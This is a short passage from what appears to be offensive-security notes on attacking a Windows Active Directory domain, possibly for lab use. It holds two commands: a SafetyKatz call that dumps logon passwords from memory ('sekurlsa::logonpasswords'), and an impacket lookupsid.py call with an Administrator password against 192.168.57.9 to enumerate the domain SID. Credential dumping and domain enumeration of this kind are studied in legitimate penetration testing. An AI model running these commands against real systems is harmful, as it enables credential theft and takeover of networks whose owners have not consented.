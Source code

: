 ```bash
C:\Users\Administrator\Documents\Tools\SafetyKatz.exe "sekurlsa::logonpasswords"
```

### 2 - Obtain Domain SID

### Enumerate domain SID

```bash
lookupsid.py 'Administrator:P@$$W0rd'@192.168.57.9
```

<figure><img src="../../.gitbook/assets/image (220).png" alt=""><figcaption></figcaption></figure>
